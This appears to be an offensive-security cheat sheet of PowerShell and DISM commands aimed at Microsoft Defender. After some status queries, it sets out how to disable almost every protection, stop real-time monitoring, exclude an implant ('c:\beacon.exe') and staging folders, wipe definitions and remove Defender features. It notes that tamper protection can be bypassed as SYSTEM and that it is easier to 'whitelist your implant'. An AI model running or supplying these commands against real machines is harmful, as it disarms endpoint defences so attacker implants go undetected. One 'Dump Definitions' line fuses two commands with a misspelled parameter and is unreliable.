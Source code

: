 >[!about] Certain syntax may vary depending on the version of Windows.

https://learn.microsoft.com/en-us/powershell/module/defender/?view=windowsserver2022-ps

### Check Status

```
Get-MpComputerStatus | Select-Object AMServiceEnabled,AntispywareEnabled,AntispywareSignatureLastUpdated,AntivirusEnabled,AntivirusSignatureLastUpdated,BehaviorMonitorEnabled,IoavProtectionEnabled,NISEnabled,OnAccessProtectionEnabled,RealTimeProtectionEnabled,IsTamperProtected,DefenderSignaturesOutOfDate

Get-MpThreatDetection
Get-MpThreat
```

### Check Preference

```
Get-MpPreference | Select-Object PSComputerName,ExclusionExtension,ExclusionPath,ExclusionProcess,DisableRealtimeMonitoring,PUAProtection,RealTimeScanDirection,DisableScanningNetworkFiles,DisableScriptScanning,ExclusionIpAddress,AttackSurfaceReductionOnlyExclusions,AttackSurfaceReductionRules_Actions,AttackSurfaceReductionRules_Ids,CloudBlockLevel,DisableArchiveScanning,DisableAutoExclusions,DisableBehaviorMonitoring,DisableBlockAtFirstSeen,DisableInboundConnectionFiltering,DisableIOAVProtection,DisableRdpParsing,EnableNetworkProtection,UnknownThreatDefaultAction,SevereThreatDefaultAction,HighThreatDefaultAction,ModerateThreatDefaultAction,LowThreatDefaultAction,MAPSReporting
```
### Disable everything, minus tamper protection
	
	If tamper protection is enabled, real-time monitoring will not turn off. 
	Tamper protection can be bypassed by running as trustedinstaller or system. See DefenderControl.
	In most cases it may be easier to just whitelist your implant.
	
```
Set-MpPreference -PUAProtection disabled -DisableBlockAtFirstSeen:$true -DisableCpuThrottleOnIdleScans:$true -MAPSReporting Disabled -SubmitSamplesConsent NeverSend -DisableAutoExclusions:$true -DisablePrivacyMode:$true -RandomizeScheduleTaskTimes:$true -DisableBehaviorMonitoring:$true -DisableRealtimeMonitoring:$true -DisableScriptScanning:$true -DisableArchiveScanning:$true -DisableCatchupFullScan:$true -DisableCatchupQuickScan:$true -DisableEmailScanning:$true -DisableRemovableDriveScanning:$true -DisableScanningMappedNetworkDrivesForFullScan:$true -DisableScanningNetworkFiles:$true -DisableIOAVProtection:$true -DisableDatagramProcessing:$true -DisableIntrusionPreventionSystem:$true -DisableNetworkProtection:$true -EnableControlledFolderAccess Disabled -HighThreatDefaultAction 6 -Force -LowThreatDefaultAction 6 -SevereThreatDefaultAction 6 -ScanScheduleDay 8


powershell.exe -Command "Set-MpPreference -PUAProtection disabled -DisableBlockAtFirstSeen:$true -DisableCpuThrottleOnIdleScans:$true -MAPSReporting Disabled -SubmitSamplesConsent NeverSend -DisableAutoExclusions:$true -DisablePrivacyMode:$true -RandomizeScheduleTaskTimes:$true -DisableBehaviorMonitoring:$true -DisableRealtimeMonitoring:$true -DisableScriptScanning:$true -DisableArchiveScanning:$true -DisableCatchupFullScan:$true -DisableCatchupQuickScan:$true -DisableEmailScanning:$true -DisableRemovableDriveScanning:$true -DisableScanningMappedNetworkDrivesForFullScan:$true -DisableScanningNetworkFiles:$true -DisableIOAVProtection:$true -DisableDatagramProcessing:$true -DisableIntrusionPreventionSystem:$true -DisableNetworkProtection:$true -EnableControlledFolderAccess Disabled -HighThreatDefaultAction 6 -Force -LowThreatDefaultAction 6 -SevereThreatDefaultAction 6 -ScanScheduleDay 8"
```
### Disable Realtime Monitoring
```
Set-MpPreference -DisableRealtimeMonitoring 1
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableRealtimeMonitoring:$true

### Enable Realtime Monitoring
Set-MpPreference -DisableRealtimeMonitoring 0
Set-MpPreference -DisableRealtimeMonitoring $false
```

### Add Exclusion
```
Add-MpPreference -ExclusionPath c:\beacon.exe
Add-MpPreference -ExclusionPath c:\windows\tasks
Add-MpPreference -ExclusionPath c:\windows\temp

### Remove
Remove-MpPreference -ExclusionPath
```

### Dump Definitions
```
"c:\Program Files\Windows Defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableOAVProtection 1
```

### Remove Features
```
Dism /online /Disable-Feature /FeatureName:Windows-Defender-Default-Definitions /Remove
Dism /online /Disable-Feature /FeatureName:Windows-Defender-ApplicationGuard /Remove
```

